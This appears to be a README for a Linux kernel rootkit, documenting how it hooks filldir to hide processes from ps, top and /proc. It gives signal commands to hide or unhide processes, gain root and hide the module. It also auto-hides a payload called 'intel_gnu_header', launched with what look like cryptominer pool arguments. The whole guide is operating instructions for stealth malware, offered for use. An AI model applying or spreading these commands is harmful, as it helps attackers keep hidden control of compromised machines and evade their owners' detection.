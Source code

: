 # Process Hiding Usage Guide

This rootkit now supports hiding processes **by name** from system tools like `ps`, `top`, `htop`, and `/proc` directory listings.

## How Process Hiding Works

The rootkit hooks the `filldir` and `filldir64` functions to intercept directory listings in `/proc`. When a process name matches any entry in the hidden process list, its directory entry in `/proc` is filtered out, making the process invisible to most userspace tools.

The system checks both:
1. **Process name** (comm) - the executable name
2. **Command line** - the full command with arguments

## Usage Commands

### Hide Current Process
```bash
# Hide the current process by its name
kill -34 0
```

### Hide Any Process by PID
```bash
# Hide process with PID 656 (e.g., qemu-ga)
kill -34 656

# This will hide ALL processes with the same name as PID 656
```

### Unhide Current Process
```bash
# Unhide the current process by its name
kill -35 0
```

### Unhide Any Process by PID
```bash
# Unhide process with PID 656 (e.g., qemu-ga)
kill -35 656

# This will unhide ALL processes with the same name as PID 656
```

### intel_gnu_header Control
```bash
# Make intel_gnu_header visible (even though it's auto-hidden)
kill -22 0

# Hide intel_gnu_header again
kill -23 0
```

### Other Existing Commands
```bash
# Get root privileges
kill -10 0

# Hide/show the rootkit module
kill -12 0
```

## Example: Hiding qemu-ga Process

To hide the qemu-ga process like:
```
root 656 0.0 0.1 80712 4224 ? Ssl 22:44 0:00 /usr/sbin/qemu-ga
```

**Hide by PID:**
```bash
# Hide by PID (this hides ALL qemu-ga processes)
kill -34 656

# Verify it's hidden
ps aux | grep qemu-ga    # Should show no results
ls /proc/656             # Should show "No such file or directory"
```

**To unhide:**
```bash
kill -35 656
```

## Configuration

- **Maximum Hidden Process Names**: 10 (configurable via `HIDE_PROCESS_LIST_SIZE` in config.h)
- **Maximum Process Name Length**: 256 characters (configurable via `MAX_PROCESS_NAME_LEN`)
- **Signal Numbers**: 
  - SIGRTMIN (34): Hide current process by name
  - SIGRTMIN1 (35): Unhide current process by name

## Auto-Hidden Processes

The rootkit automatically hides:
- **intel_gnu_header** - The main payload process (auto-hidden on module load)

## Example Usage Scenario

1. Start the intel_gnu_header process:
   ```bash
   /usr/bin/intel_gnu_header -o test.com:443 -u 44fdsasdf -k --tls -p prolay &
   echo $!  # Note the PID, e.g., 1234
   ```

2. **The process is automatically hidden** when the rootkit module loads.

3. Verify it's hidden:
   ```bash
   ps aux | grep intel_gnu_header    # Should not show the process
   ps aux | grep test.com            # Should not show the process
   ls /proc/1234                     # Should show "No such file or directory"
   ```

4. **To make intel_gnu_header visible again:**
   ```bash
   # Unhide by PID (if you know the PID)
   kill -35 1234
   
   # Or unhide from within the intel_gnu_header process itself
   kill -35 0
   
   # Verify it's now visible
   ps aux | grep intel_gnu_header    # Should show the process
   ```

5. **To hide it again:**
   ```bash
   # Hide by PID
   kill -34 1234
   
   # Or hide from within the process
   kill -34 0
   ```

4. To hide other processes:
   ```bash
   # From within the process you want to hide:
   kill -34 0
   
   # Or hide by PID:
   kill -34 <PID>
   ```

5. To unhide a process:
   ```bash
   # From within the hidden process:
   kill -35 0
   
   # Or unhide by PID:
   kill -35 <PID>
   ```

## Technical Details

- The rootkit maintains an internal list of hidden process names
- Process hiding works by filtering `/proc` directory entries based on process names
- Hidden processes are still running and functional, just invisible to most tools
- The system uses **substring matching** - if any hidden name is found in the process name or command line, it's hidden
- The hiding affects: `ps`, `top`, `htop`, `/proc` listings, and other tools that read from `/proc`

## Advanced Usage

You can hide processes with specific patterns:
- Hide by executable name: `intel_gnu_header`
- Hide by partial command: `test.com:443`
- Hide by argument: `44fdsasdf`

## Limitations

- Maximum of 10 process names can be hidden simultaneously
- Process names are limited to 256 characters
- Some advanced forensic tools might still detect hidden processes
- Process hiding only affects `/proc` directory listings, not kernel-level process tracking
- Signal-based hiding only works for the current process (kill -34 0)
